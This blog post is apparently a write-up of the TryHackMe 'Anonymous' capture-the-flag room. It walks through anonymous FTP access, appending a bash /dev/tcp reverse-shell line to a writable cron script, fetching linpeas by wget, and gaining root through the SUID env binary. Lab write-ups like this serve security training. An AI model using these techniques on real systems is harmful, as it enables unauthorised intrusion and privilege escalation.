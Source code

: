 ```yaml
---
layout: post
title: THM Anonymous Write-up
excerpt_separator: <!--more-->
---
```

<img src="/img/anon-img/0.header-image.png">
<!--more-->
<p><b>Question 1. Enumerate the machine. How many ports are open?</b></p>
<p><b>Question 2. What service is running on port 21?</b></p>
<p><b>Question 3. What service is running on ports 139 and 445?</b></p>
<p>Let’s start off by  running a basic nmap scan for the top 1000 ports</p>
<p>We have ports 21,22,139 and 445 open. Let enumerate these further. </p>
<img src="/img/anon-img/1.basic_nmap_scan.png">
<p> Now let's check all 65k ports by using the -p- flag just to make sure there aren't anymore open ports. This will take a few minutes. While this is working let’s check out the FTP service on port 21.   
</p>
<img src="/img/anon-img/3.nmap_scan_all_ports.png">
<p>We’re able to login to the FTP service with anonymous:anonymous 
Let’s enumerate the file system.  </p>
<img src="/img/anon-img/4.Ftp_anon_login.png">
<p> There’s a dir named “scripts”  </p>
<img src="/img/anon-img/5.FTP_scrips_dir.png">
<p>There’s four files here. Let’s download these using the get command.  </p>
<img src="/img/anon-img/6.get_ftp_files.png">
<p>We’ll need to review these scripts, but first let’s check on our nmap scan.
Looks like these are the only open ports. Now you can answer question 1,2 and 3.  </p>
<img src="/img/anon-img/7.nmap_all_ports_scan_results..png">
<p><b>Questions 4. There's a share on the user's computer.  What's it called?</b></p>
<p>Let’s look at the to_do.txt file we download. Nothing helpful here.Let’s look at the other files. </p>
<img src="/img/anon-img/8.to_do.txt_output.png">
<p> Wow! There’s a bash script that’s probably running on a cron job, the only issue is we don’t know how often it runs. If we’re lucky it runs every few minutes. The good news is we have write  permissions, so It's definitely worth attempting  to gain a shell from it.  </p>
<img src="/img/anon-img/9.clean.sh_output.png">
<p>Let’s make a directory on our local machine name ftp and  mount the FTP  directory  using curlftpfs </p>
<img src="/img/anon-img/10.mkdir-ftp-and-mount.png">
<p>Cd into the FTP directory and open the clean.sh file in a text editor.  </p>
<img src="/img/anon-img/11.cd-gedit-file.png">
<img src="/img/anon-img/12.clean.sh-before-edit.png">
<p>Let’s add this bash shell command (bash -i >& /dev/tcp/your_ip_here/9001 0>&1) to the end of the script like below.  Don’t save  it yet we need to set up a listener to catch this shell on our local machine first.  </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>Set up a netcat listener on our local machine. </p>
<img src="/img/anon-img/14.setup-nc-listener.png">
<p>  Now save this file. </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>And we have a reverse shell. Let’s see if we can find the answer to question 4. </p>
<img src="/img/anon-img/15.rev-shell.png">
<p>Here we have the user.txt file and the directory of the FTP share we mounted. Let’s cat the user.txt  file, answer question 4 and 5. </p>
<img src="/img/anon-img/16.-user.txt.png">
<p>Now let’s start enumerating and try to gain a root shell. 
We can’t write to the passwd or shadow file, but it appears that we’re the only other useful user beside root so no lateral I don’t think we’ll need a lateral movement. Keep enumerating.  </p>
<img src="/img/anon-img/17.passwd-shadow-files.png">
<p>Nothing's standing out. Let’s try running linpeas. On your local host setup a python simple http server to host the linepeas  file.  </p>
<img src="/img/anon-img/18.pythong-simple-server.png">
<p>Back in your shell, if you're not already, navigate to your home folder and issue a wget command to download the linepease file. </p>
<img src="/img/anon-img/19.download-linpease.png">
<p>Make the file  executable  and run it like this ./linpease.sh </p>
<img src="/img/anon-img/20.linpease-running.png">
<p>This is interesting, let's check GTFObins. https://gtfobins.github.io/gtfobins/env/  </p>
<img src="/img/anon-img/21. linpease-env-binary.png">
<img src="/img/anon-img/22.GTFObins-on-the-env-binary.png">
<p> When we execute the env binary we can call /bin/sh but have to add -p to maintain permissions - in this case root and voila, we have root </p>
<img src="/img/anon-img/23.root-shell.png">
<p>Let's grab the root flag. </p>
<img src="/img/anon-img/24.root.txt.png">




